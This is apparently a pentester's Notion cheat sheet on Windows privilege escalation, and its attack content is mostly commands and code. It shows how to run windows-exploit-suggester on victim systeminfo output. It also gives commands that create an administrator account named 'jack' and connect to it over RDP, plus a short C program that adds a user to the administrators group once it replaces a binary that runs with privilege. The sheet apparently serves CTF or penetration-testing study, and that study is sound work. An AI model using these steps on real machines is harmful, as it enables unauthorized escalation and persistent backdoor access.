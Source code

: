 # Windows Privilege Escalation

## [windows-exploit-suggester.py](http://windows-exploit-suggester.py)

[AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

[windows-exploit-suggester.py](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/fa740c70-397e-4ee7-b4d8-aaf6c17766cd/windows-exploit-suggester.py)

```
# Victim
systeminfo # Copy & Paste this into a file on the attacker

# Attacker
python windows-exploit-suggester.py --update

python windows-exploit-suggester.py --database 20XX-YY-ZZ-mssb.xlsx --systeminfo systeminfo.txt
```

## Creating Windows Admin Account

```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jack -p sparrow [IP-ADDRESS]
```

## Setuid.c

[setuid.c](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4e1cf5be-b5e2-4d56-a25f-e55b5c7495d0/win_setuid.c)

If you can overwrite a binary that’ll be run with priviledge, run this.

```bash
#include <stdlib.h>
int main()
{
    int i;
    i = system("net localgroup administrators theusername /add");
    return 0;
}
```

## Using Windows Internals

[sagishahar/scripts](https://github.com/sagishahar/scripts/blob/master/windows_dll.c)

